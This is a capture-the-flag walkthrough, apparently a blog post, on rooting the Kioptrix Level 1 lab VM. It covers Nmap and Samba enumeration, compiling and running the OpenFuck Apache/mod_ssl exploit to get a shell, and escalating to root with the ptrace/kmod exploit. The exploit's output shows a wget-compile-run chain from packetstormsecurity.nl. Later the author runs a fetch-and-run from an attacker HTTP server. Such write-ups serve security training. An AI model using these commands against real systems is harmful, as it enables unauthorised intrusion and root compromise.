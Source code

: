 ```yaml
---
layout: single
title: Kioptrix Level 1 CTF Walkthrough
date: 2017-07-30
categories:
  - security
  - ctf
  - walkthrough
tags:
  - kioptrix
  - vulnhub
---
```

## Service Discovery
An Nmap scan [`nmap -sS -sV -T4 -vv 192.168.22.128`] revealed that the machine had a number of services running, most notably an old version of Apache and a Samba service.

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        syn-ack ttl 64 Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   syn-ack ttl 64 Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      syn-ack ttl 64 1 (RPC #100024)
```

Using `nmblookup`, I was able to find the NetBIOS name of the machine:

```shell_session
root@kali:~# nmblookup -A 192.168.22.128
Looking up status of 192.168.22.128
	KIOPTRIX        <00> -         B <ACTIVE>
	KIOPTRIX        <03> -         B <ACTIVE>
	KIOPTRIX        <20> -         B <ACTIVE>
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>
	MYGROUP         <00> - <GROUP> B <ACTIVE>
	MYGROUP         <1d> -         B <ACTIVE>
	MYGROUP         <1e> - <GROUP> B <ACTIVE>

	MAC Address = 00-00-00-00-00-00
```

After identifying the NetBIOS name as `KIOPTRIX`, I used this with `smbclient` to find the available shares and fingerprint the service, which shows the Samba version is `2.2.1a`:

```shell_session
root@kali:~# smbclient -L \\KIOPTRIX -I 192.168.22.128 -N
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Sharename       Type      Comment
	---------       ----      -------
	IPC$            IPC       IPC Service (Samba Server)
	ADMIN$          IPC       IPC Service (Samba Server)

Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Server               Comment
	---------            -------
	KIOPTRIX             Samba Server

	Workgroup            Master
	---------            -------
	MYGROUP              KIOPTRIX
```

## Exploiting Apache
The version of Apache reported by Nmap is vulnerable to CVE-2002-0082 (a.k.a OpenFuck). I grabbed the exploit from https://www.exploit-db.com/exploits/764/ and installed `libssl-dev`, in order to compile it.

The first attempt to compile resulted in GCC complaining about numerous undeclared constants, due to changes in the library from when the exploit was originally developed.

To solve this, two new include statements needed to be added, so that `openssl/rc4` and `openssl/md5` are both included. After making this small change, the exploit could successfully be compiled by running `gcc exploit.c -o exploit -lcrypto`.

Once the exploit was compiled, I grepped the available offsets that were included in the exploit to find one that matches the fingerprint produced by Nmap earlier:

```shell_session
root@kali:~# ./exploit | grep 1.3.20
	0x02 - Cobalt Sun 6.0 (apache-1.3.20)
	0x27 - FreeBSD (apache-1.3.20)
	0x28 - FreeBSD (apache-1.3.20)
	0x29 - FreeBSD (apache-1.3.20+2.8.4)
	0x2a - FreeBSD (apache-1.3.20_1)
	0x3a - Mandrake Linux 7.2 (apache-1.3.20-5.1mdk)
	0x3b - Mandrake Linux 7.2 (apache-1.3.20-5.2mdk)
	0x3f - Mandrake Linux 8.1 (apache-1.3.20-3)
	0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
	0x7e - Slackware Linux 8.0 (apache-1.3.20)
	0x86 - SuSE Linux 7.3 (apache-1.3.20)
```

Options `0x6a` and `0x6b` match the fingerprint of the machine, so I tried both. `0x6a` failed, but `0x6b` successfully acquired a shell as the `apache` user:

```shell_session
root@kali:~# ./exploit 0x6b 192.168.22.128 443 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
oits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; .nl/0304-expl
--16:35:06--  http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to packetstormsecurity.nl:80...
packetstormsecurity.nl: Host not found.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./p: No such file or directory
bash-2.05$
bash-2.05$   
```

## Getting Root Shell
As the VM has no access to the Internet, it was unable to automate the privilege escalation. Due to the age of the exploit, it would have failed anyway, as the URL it tries to grab the exploit from is seemingly dead (http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c).

As I was using a non-interactive shell, I grabbed a copy of the ptrace/kmod exploit from https://www.exploit-db.com/exploits/3/. I ran it through GCC locally, to ensure it doesn't need any patching, and found that it was using an old header file [`linux/user.h`], which needed to be replaced with `sys/user.h`.

After making this small change, I started a local HTTP server to transfer it to the target machine:

```shell_session
root@kali:~# python -m SimpleHTTPServer 9090
Serving HTTP on 0.0.0.0 port 9090 ...
```

Once the HTTP server was up, I transferred the updated exploit, compiled and acquired a root shell through it:

```shell_session
bash-2.05$ wget http://192.168.22.129:9090/ptrace.c
bash-2.05$ gcc ptrace.c -o ptrace
bash-2.05$ ./ptrace
[+] Attached to 6289
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```
